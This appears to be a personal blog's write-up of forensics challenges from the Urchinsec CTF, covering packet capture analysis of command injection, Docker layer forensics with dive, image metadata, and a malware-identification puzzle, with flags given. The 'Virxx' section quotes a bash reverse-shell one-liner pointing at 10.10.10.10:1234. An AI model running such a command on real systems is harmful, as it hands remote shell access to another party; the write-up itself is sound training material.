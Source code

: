 ```yaml
---
layout: post
title: "URCHINSEC CTF MMXXII Forensics WriteUp"
date: 2022-03-09
image: ../../assets/img/Posts/urchinsec.png
categories: [CTF-TIME]
tags: [wireshark, docker, dive, virus total, Exiftool, forensics, cyberchef]
---
```


Hey guys and welcome to my blog. Today i will be tackling all challenges i knocked in Urchinsec's CTF. This was a jeopardy type CTF hosted by our competitors, [Urchinsec](https://ctftime.org/team/175663). I majorly focussed on forensics category but attempted some web & OSINT challenges. Special thanks to forensic author, [@tahaafarooq](https://twitter.com/tahaafarooq) and the whole gang for organising the CTF. With that said, lets dive in.

# Streams

> _We were able to capture some packets that we believe to have some information about what the hacker had done after installing a backdoor on our server system , can you figure out what took?_

In this challenge, you are given a packet capture file to figure out what the attacker might have taken. First thing i do when opening a pcap file is look at the `protocal hierarchy statistics` to see what protocols have been used frequently.(_This can be found by navigating to `Statistics > Protocal Hierarchy Statistics`_) In this case, HTTP protocol is a good place to start since traffic is mostly unencrypted. We see that we have some **Line-based text data**. We can right click on it and apply as a filter.

![image](https://user-images.githubusercontent.com/58165365/157321902-267cfd4a-0aeb-4662-82a1-6d5fd677a633.png)

We now have 8 packets which seem to give a clue to what really happened. The attacker abused the `cmd` parameter to execute system commands.

![image](https://user-images.githubusercontent.com/58165365/157341185-23d6f965-5056-49b0-8b4e-4b8fb55f4e73.png)

He run the `id` & `whoami` command to find out who the current user,

![image](https://user-images.githubusercontent.com/58165365/157324053-9c42ee70-ef01-4dce-99e3-07406b5b9c37.png)

`ls` command to list files in the current directory

![image](https://user-images.githubusercontent.com/58165365/157324469-1ee4454b-93a0-48ac-8bd6-7ea69ff647cb.png)

He then read the contents of the flag.

![image](https://user-images.githubusercontent.com/58165365/157320652-b9193064-ed73-425b-8b1e-9c2dc7d68ede.png)

`urchin{wireshark_1s_pr3tty_g00d_f0r_analys!NG}`

# Duck Duck Dock

> _Ashes everywhere , my past has turned into ashes , i'm about to lose it!_

In this challenge, you are given a compressed docker image for analysis. I used a tool called [dive](https://github.com/wagoodman/dive) to analyse the docker image layers before extracting.

> _`dive` is a tool for exploring a docker image, layer contents, and discovering ways to shrink the size of your Docker/OCI image._

You can install the tool with this simple one-liner:

`wget https://github.com/wagoodman/dive/releases/download/v0.10.0/dive_0.10.0_linux_amd64.deb && sudo apt install ./dive_0.10.0_linux_amd64.deb`

Run the following command to start `diving`😅

`dive docker-archive://duckdock.tar`

![image](https://user-images.githubusercontent.com/58165365/157329886-5bfe86d0-77c1-4df1-9f43-e378cfa9ca91.png)

From the screenshot above, we can see the compressed docker image has 4 layers. We have a left and right pane. To navigate to the next layer, hit the down arrow key. To switch to the right pane, hit the Tab Key.
In docker forensics we'd be interested to look at the modified or deleted files. In this case, when you switch to the right side and hit `ctrl+u`, you can see modified files in that layer.(_refer to the screenshot below_)

![image](https://user-images.githubusercontent.com/58165365/157331066-384bb238-c8d9-4359-bc01-9520f8e61759.png)

In this case we see we jacob's home directory containing bash_history.

![image](https://user-images.githubusercontent.com/58165365/156884788-e3378f56-0aca-44a8-8333-21d0250219d3.png)

Third layer had a bash script in the `/opt` directory

![image](https://user-images.githubusercontent.com/58165365/157331861-5d8e1c47-afaf-446f-8104-12b5b1e66739.png)

Last layer had a flag in admin's home directory.

![image](https://user-images.githubusercontent.com/58165365/157332015-ad7fbbbd-e959-487f-af34-67166fe9035c.png)

> _I will give you short cut although its always good doing some manual analysis😉_

You can add `-j` parameter to the previous command to write the layer analysis statistics to a given file.

![image](https://user-images.githubusercontent.com/58165365/157333346-e5733f11-fc0c-4aa8-a761-9f6e09999da5.png)

Thats preety much what we found what when manually diving. Take note of the highlighted layer id's as those are the ones we can dig in and understand more about the image.

Since this is a tar file, you can axtract it using the following command:

`tar xvf duckdock.tar`

![image](https://user-images.githubusercontent.com/58165365/157335423-26a1556b-1733-46e8-b5f0-78950e6b618a.png)

Exploring the layer containing bash history, we can see a user being created and deleted, modification of the bash script as well as a hint.🤔 Looking at flag file in admin's home dir, we get more pewpew's 😅

![image](https://user-images.githubusercontent.com/58165365/157336180-b7cc58b9-b59e-4861-9e9c-1391ea0e8892.png)

![image](https://c.tenor.com/OjUxYLxDHqIAAAAC/finger-guns-michael-scott.gif)

Anyway, looking at the layer containing the bash script, we get the flag as a wierd string.

![image](https://user-images.githubusercontent.com/58165365/157336881-1490a2bd-0ae0-4d8d-8c90-8b12157799d5.png)

Using cyberchef to decode it, we get the flag.

![image](https://user-images.githubusercontent.com/58165365/156886314-3b449fb7-5c9f-431c-b75c-2b072aa6cb03.png)

`urchin{d>cker_f>rensics_is_fun}`

# Meta

> _Metaverse, Metadata, Metaphor, blah blah_

In this challenge you are given an image. First thing that comes to mind is doing some steg analysis. Using `exiftool` , you can look at the file metadata to get potentially useful info. Looking at the Artist parameter, i noted an odd string.

![image](https://user-images.githubusercontent.com/58165365/156885645-3abb4422-c7fd-433e-b8cd-fb1ef5c6278c.png)

Using `cyberchef` you can easily identify the string type using the `Magic` module. From there we learn that its hex encoded. Decoding it gives you a flag.

![image](https://user-images.githubusercontent.com/58165365/156885683-75ce3197-effe-407a-b859-bd33d82afecd.png)

`urchin{metadatas_4re_v3ry_int3r3sting_stuff}`

# Virxx

> _This is madness a 0/56 how how how? can you figure out how this happened?_

In this challenge, you are given a file containing some ASCII text. cating the contents of the flag, you get a bash onliner. Tried even running strings on it but got stuck.😪

```bash
➜  file file
file: ASCII text
➜  wc file
 1  6 50 file
➜  cat file
bash -c "bash -i &>/dev/tcp/10.10.10.10/1234 <&1"
➜  strings file
bash -c "bash -i &>/dev/tcp/10.10.10.10/1234 <&1"

```

It took me a while to figure out how to proceed from here. Got a nudge from my team mate [Winter](https://twitter.com/byronchris25) to think about the name of the challenge. `Virustotal`!!! I uploaded the file to [Virustotal](https://www.virustotal.com/gui/file/c995e0dd367fd8d57ac07f528aeea600179be5bd5e193cd31ecfc723e795e02d) and got the flag.😅

![image](https://user-images.githubusercontent.com/58165365/156892643-f1872a9e-4890-4369-b0e9-5a6893efe42f.png)

`urchin{basic_skill_in_mal_analysis}`

Thats it. Hopefully you learnt a thing or two. Generally the CTF was fun and looking foward to their next CTF coming up in Sept. If you have any questions, feel free to ping me on twitter [@oste_ke](https://twitter.com/oste_ke). Till next time, take care and keep safe. 😎
